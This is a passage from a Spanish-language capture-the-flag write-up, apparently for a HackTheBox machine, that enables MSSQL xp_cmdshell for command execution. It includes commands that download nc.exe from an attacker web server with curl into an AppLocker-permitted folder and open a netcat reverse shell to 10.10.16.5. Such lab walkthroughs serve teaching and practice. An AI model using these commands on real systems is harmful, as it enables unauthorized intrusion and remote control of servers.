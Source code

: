 #### Enabling the function (xp\_cmdshell) to get RCE in MSSQL

Al verificar que disponemos de los privilegios necesarios para habilitar la función mencionada, procederemos a habilitarla a través de la siguiente instrucción y a verificar que podemos ejecutar comandos.

Verificamos que hemos logrado ejecutar el comando `whoami` y nos indica que somos el usuario `sql_svc@sequel.htb`.

{% code overflow="wrap" %}
```sql
EXEC sp_configure "show advanced options",1; RECONFIGURE; EXEC sp_configure "xp_cmdshell",1; RECONFIGURE;

xp_cmdshell "whoami"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/3488_vmware_redDXO1NQn.png" alt=""><figcaption></figcaption></figure>

Verificado que podemos lograr ejecutar comandos, procederemos a disponer del binario de `nc.exe` en nuestro equipo atacante el cual compartiremos a través de un servidor web de Python.

Desde la consola de MSSQL procederemos a descargarnos el binario en una ubicación la cual el AppLocker no nos lo restringa. Por otro lado, procederemos a ponernos en escucha por un puerto y a ejecutar el binario de `nc.exe` desde la consola del MSSQL para proporcionarnos una Reverse Shell al equipo.

Verificamos que hemos logrado obtener acceso al equipo víctima con el usuario `sql_svc@sequel.htb`.

<pre class="language-bash"><code class="lang-bash"><strong># Desde Kali Linux
</strong><strong>python3 -m http.server 80
</strong><strong>
</strong>rlwrap -cAr nc -nlvp 443
</code></pre>

```sql
# Desde consola de MSSQL
xp_cmdshell "curl 10.10.16.5/nc.exe -o C:\Windows\System32\spool\drives\color\nc.exe"

xp_cmdshell "C:\Windows\System32\spool\drives\color\nc.exe -e cmd 10.10.16.5 443"
```

<figure><img src="../../.gitbook/assets/3489_vmware_T9AQqSDyl2.png" alt=""><figcaption></figcaption></figure>
